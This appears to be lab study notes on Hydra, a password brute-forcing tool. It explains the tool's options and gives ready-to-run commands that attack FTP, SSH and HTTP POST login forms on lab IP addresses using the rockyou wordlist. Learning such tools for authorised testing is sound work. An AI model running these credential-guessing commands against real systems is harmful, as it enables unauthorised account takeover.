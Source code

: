 Hydra
# What is Hydra?
Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its official repository(https://github.com/vanhauser-thc/thc-hydra~),~ Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the Kali Hydra tool page(https://en.kali.tools/?p=220)

# Using Hydra
The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being ```user``` and a password list being ```passlist.txt```, we’d use the following command:
```sh
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
![image](https://user-images.githubusercontent.com/2403660/236682586-8618da01-4e00-48e0-a6ad-5ae084b97e48.png)

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

## SSH
```sh
hydra -l <username> -P <full path to pass> 10.10.18.163 -t 4 ssh
```

For example, ```hydra -l root -P passwords.txt 10.10.18.163 -t 4 ssh``` will run with the following arguments:

- Hydra will use ```root``` as the username for ssh
- It will try the passwords in the ```passwords.txt``` file
- There will be four threads running in parallel as indicated by -t 4

## Post Web Form
We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

```sh
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
```
![image](https://user-images.githubusercontent.com/2403660/236682640-1642929a-6a16-419e-91bb-3769f8beb137.png)

Below is a more concrete example Hydra command to brute force a POST login form:
```sh
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- The login page is only ```/```, i.e., the main IP address.
The ```username``` is the form field where the username is entered
The specified username(s) will replace ```^USER^```
The ```password``` is the form field where the password is entered
The provided passwords will be replacing ```^PASS^```
Finally, ```F=incorrect``` is a string that appears in the server reply when the login fails.

```sh
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.83.139 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

```sh
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.83.139 -t 4 ssh
```


